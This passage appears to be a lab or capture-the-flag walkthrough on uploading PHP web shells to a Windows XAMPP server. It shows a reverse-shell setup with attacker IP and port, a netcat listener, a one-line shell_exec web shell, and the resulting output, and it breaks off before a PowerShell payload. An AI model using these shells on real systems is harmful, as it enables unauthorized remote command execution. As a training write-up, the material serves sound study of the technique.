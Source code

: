 Nmap done: 1 IP address (1 host up) scanned in 3.14 seconds{% endraw %}{% endcapture %} {%include code.html code=code %}


### Web shell upload - Windows

Copy the webshell available in `/usr/share/webshells/php/php-reverse-shell.php` and edit the file to modify `ip` and `port` of attacking machine.
{% capture code %}{% raw %}$ip = '<local-ip>';
$port = 443;{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}rlwrap nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}

Use `firefox` to login to the url `http://<ip>`, browse the `php-reverse-shell.php` payload and submit. Access the url `http://<ip>/uploads/php-reverse-shell.php` to activate the `reverse shell`.

The `reverse shell` would have spawned at the netcat listener.
{% capture code %}{% raw %}Connection from <target-ip> 49750 received!{% endraw %}{% endcapture %} {%include code.html code=code %}

However, the `php reverse shell` would not have activated, as this is not compatible with windows. The following error would occur in `firefox`.
{% capture code %}{% raw %}Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 184
WARNING: Failed to daemonise. This is quite common and not fatal.
Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 184
Successfully opened reverse shell to 10.10.255.254:443
Notice: Undefined variable: daemon in C:\xampp\htdocs\uploads\php-reverse-shell.php on line 184
ERROR: Shell process terminated {% endraw %}{% endcapture %} {%include code.html code=code %}

The following error would also appear in `netcat` listener shell.
{% capture code %}{% raw %}'uname' is not recognized as an internal or external command,
operable program or batch file.{% endraw %}{% endcapture %} {%include code.html code=code %}


### Web Shell - Windows

Create a `php web shell` payload.
{% capture code %}{% raw %}<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>{% endraw %}{% endcapture %} {%include code.html code=code %}

Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}rlwrap nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}

Use `firefox` to login to the url `http://<ip>`, browse the `shell.php` payload and submit. Access the url `http://<ip>/uploads/shell.php` along with the `powershell payload command` to activate the `reverse shell`.
